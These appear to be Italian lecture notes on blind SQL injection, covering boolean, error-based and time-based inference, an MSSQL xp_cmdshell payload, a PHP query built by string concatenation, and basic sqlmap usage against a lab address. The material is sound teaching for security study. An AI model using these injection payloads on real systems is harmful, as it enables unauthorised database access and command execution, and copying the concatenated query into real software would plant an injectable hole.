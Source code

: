 ## Blind SQL Injections
Supponiamo che `http://xyz.com/items.php?id=2` restituisca una query soggetta a SQL injection
`SELECT title, body FROM items WHERE id=2`
Vedremo una risposta diversa agli URL di seguito?
- `http://xyz.com/items.php?id=2 AND 1=1`
- `http://xyz.com/items.php?id=2 AND 1=2`
Quale sarà il risultato di `../items.php?id=2 AND SUBSTRING(user,1,1) = 'a'`
- Uguale a 1 se l'utente inizia con a
- altrimenti uguale a 2!
Quindi possiamo usarlo per scoprire indirettamente cose sulla struttura e sul contenuto del database!

Un'iniezione SQL in cui non è la risposta in sé a essere interessante, ma è il tipo di risposta, o la mancanza di risposta, a far trapelare informazioni a un utente malintenzionato
Gli errori possono anche far trapelare informazioni interessanti: ad es. per
`IF <qualche condizione> SELECT 1 ELSE 1/0`
il messaggio di errore può rivelare se `<alcune condizioni>` sono vere.
In modo più subdolo, il tempo di risposta potrebbe comunque far trapelare informazioni
`.. IF(SUBSTRING(user,1,1) ='a', BENCHMARK(50000, … ), null) ..`
## MSSQL
`; create table #output (id int identity(1,1), output nvarchar(255) null);`
`; insert #output (output) exec @rc = master..xp_cmdshell ‘whoami';`
# SQLmap
	Uno strumento per le SQL Injection

![[Pasted image 20240514141956.png|center|500]]
`$query = “SELECT name,status,age FROM user WHERE name=‘” . $_REQUEST[‘search’]. ‘” AND age > 42”;`
## SQLmap: target selection
`-u <url> (e.g. http://10.0.0.X/cat.php?id=1)`
`-r <saved_request_file>`
![[Pasted image 20240514142143.png|center|500]]
## SQLmap: Injection points
```
GET parameters (default)
POST parameters (default)
Cookie Header values (if --level>=2)
User-Agent value (if --level>=3)
Referer header value (if --level>=3)
```
## SQLmap: finding SQLi
`./sqlmap.py -u “http://10.0.0.X/cat.php?id=1”`
Comportamento predefinito
- Testare tutti i parametri GET e/o POST
- Testare tutti i tipi di attacco SQLi
- Testare tutti i tipi di database
Potrebbe richiedere molto tempo.
